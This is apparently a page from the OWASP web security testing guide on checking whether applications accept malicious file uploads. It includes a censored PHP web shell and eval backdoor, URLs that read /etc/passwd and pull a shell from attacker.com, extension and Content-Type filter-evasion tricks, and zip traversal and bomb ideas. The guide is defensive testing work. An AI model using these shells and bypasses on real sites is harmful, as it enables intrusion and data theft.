 # Test Upload of Malicious Files

## Summary

Many application’s business processes allow for the upload of data/information. We regularly check the validity and security of text but accepting files can introduce even more risk. To reduce the risk we may only accept certain file extensions, but attackers are able to encapsulate malicious code into inert file types. Testing for malicious files verifies that the application/system is able to correctly protect against attackers uploading malicious files.

Vulnerabilities related to the uploading of malicious files is unique in that these “malicious” files can easily be rejected through including business logic that will scan files during the upload process and reject those perceived as malicious. Additionally, this is different from uploading unexpected files in that while the file type may be accepted the file may still be malicious to the system.

Finally, “malicious” means different things to different systems, for example Malicious files that may exploit SQL server vulnerabilities may not be considered a “malicious” to a main frame flat file environment.

The application may allow the upload of malicious files that include exploits or shellcode without submitting them to malicious file scanning. Malicious files could be detected and stopped at various points of the application architecture such as: IPS/IDS, application server anti-virus software or anti-virus scanning by application as files are uploaded (perhaps offloading the scanning using SCAP).

## Example

Suppose a picture sharing application allows users to upload their .gif or .jpg graphic files to the web site. What if an attacker is able to upload a PHP shell, or exe file, or virus? The attacker may then upload the file that may be saved on the system and the virus may spread itself or through remote processes exes or shell code can be executed.

## How to Test

### Generic Testing Method

- Review the project documentation and use exploratory testing looking at the application/system to identify what constitutes and “malicious” file in your environment.

- Develop or acquire a known “malicious” file. An [EICAR anti-malware test file](https://2016.eicar.org/85-0-Download.html) can be used as harmless, but widely detected by antivirus software.

- Try to upload the malicious file to the application/system and verify that it is correctly rejected.

- If multiple files can be uploaded at once, there must be tests in place to verify that each file is properly evaluated.

### Exploit Payload

- Using the Metasploit payload generation functionality generates a shellcode as a Windows executable using the Metasploit “msfpayload” command.

- Submit the executable via the application’s upload functionality and see if it is accepted or properly rejected.

### Malicious File

- Develop or create a file that should fail the application malware detection process. There are many available on the Internet such as ducklin.htm or ducklin-html.htm.

- Submit the executable via the application’s upload functionality and see if it is accepted or properly rejected.

[Intended Use - EICAR](https://2016.eicar.org/86-0-Intended-use.html)

### WebShell Backdoor

For example upload the `WebShell-backdoor.php` to the target victim site.

```php
<?php
    if(isset($_REQUEST['rq'])){
        echo "<pre>";
        $rq= ($_REQUEST['rq']);
        /* Replace CENSORED with system ($rq) to activate the sample */
        CENSORED;
        echo "</pre>";
        die;
    }
?>
```

Once it's uploaded, the testers/hackers may get the password by visiting the URL below.

`http://TargetVictimSite.com/WebShell-backdoor.php?rq=cat+/etc/passwd`

or it may execute by remote file injection as below.

`http://TargetVictimSite.com/File.php?include=http://attacker.com/WebShell-backdoor.php`

Other PHP example:

```php
<?php @CENSORED($_POST['password']);?>
```

> Replace @CENSORED with @eval

### Invalid File

- Set up the intercepting proxy to capture the “valid” request for an accepted file.

- Send an “invalid” request through with a valid/acceptable file extension and see if the request is accepted or properly rejected.

### Source Code Review

When there is file upload feature supported, the following API/methods are common to be found in the source code.

- Java: new file, import, upload, getFileName, Download, getOutputString
- C/C++: open, fopen
- PHP: move_uploaded_file(),Readfile, file_put_contents(),file(),parse_ini_file(), copy(),fopen(),include(), require()

### Evasion of the Filter

The following techniques may be used to bypass the website file upload checking rules and filters.

- Change the value of `Content-Type` as `image/jpeg` in HTTP request
- Change the extensions as executable extensions such as file.php5, file.shtml, file.asa, file.cert, file.jsp, file.jspx, file.aspx, file.asp, file.phtml
- Changes of capital letters of extensions. such as file.PhP or file.AspX
- Using special trailing such as spaces, dots or null characters such as file.asp… . file.php;jpg, file.asp%00.jpg, 1.jpg%00.php

The executable extensions should be in black list such as file.php5, file.shtml, file.asa, file.cert, file.jsp, file.jspx, file.aspx, file.asp, file.phtml

- In IIS6 vulnerability, if the file name is file.asp;file.jpg, the file will be executed as file.asp.

`http://www.targetVictim.com/path/file.asp;file.jpg`

- In NginX, if the original file name is test.jpg, testers/hackers may change it to `test.jpg/x.php`

Once it's uploaded, the file will be executed as x.php

### Zip files path

One Zip file may contain the malicious PHP with target purpose path such as `..\\..\\..\\..\\hacker.php`. If the website doesn't check the unzip target path, the hacker.php may unzip to the specified path.

### Zip Bomp

Upload the [ZIP bomb](https://github.com/AbhiAgarwal/notes/wiki/Zip-bomb) file that may cause application denial of service.

- new File, file, OutputSteam, upload, import, file_put_contents, open, fopen

## Related Test Cases

[Test File Extensions Handling for Sensitive Information (WSTG-CONFIG-003)](../4.3_Configuration_and_Deployment_Management_Testing/4.3.3_Test_File_Extensions_Handling_for_Sensitive_Information_WSTG-CONFIG-003.md)

[Test Upload of Unexpected File Types](../4.11_Business_Logic_Testing/4.11.8_Test_Upload_of_Unexpected_File_Types.md)

## Tools

- Metasploit's payload generation functionality

- Intercepting proxy

## References

[OWASP - Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

[Why File Upload Forms are a Major Security Threat](https://www.acunetix.com/websitesecurity/upload-forms-threat/)

[Overview of Malicious File Upload Attacks](http://securitymecca.com/article/overview-of-malicious-file-upload-attacks/)

[8 Basic Rules to Implement Secure File Uploads](https://software-security.sans.org/blog/2009/12/28/8-basic-rules-to-implement-secure-file-uploads)

[Stop people uploading malicious PHP files via forms](https://stackoverflow.com/questions/602539/stop-people-uploading-malicious-php-files-via-forms)

[How to Tell if a File is Malicious](https://www.techsupportalert.com/content/how-tell-if-file-malicious.htm)

[CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

[Implementing Secure File Upload](https://infosecauditor.wordpress.com/tag/malicious-file-upload/)

[Metasploit Generating Payloads](https://www.offensive-security.com/metasploit-unleashed/Generating_Payloads)

## Remediation

While safeguards such as blacklisting or whitelisting of file extensions, using “Content-Type” from the header, or using a file type recognizer may not always be protections against this type of vulnerability. Every application that accepts files from users must have a mechanism to verify that the uploaded file does not contain malicious code. Uploaded files should never be stored where the users or attackers can directly access them.
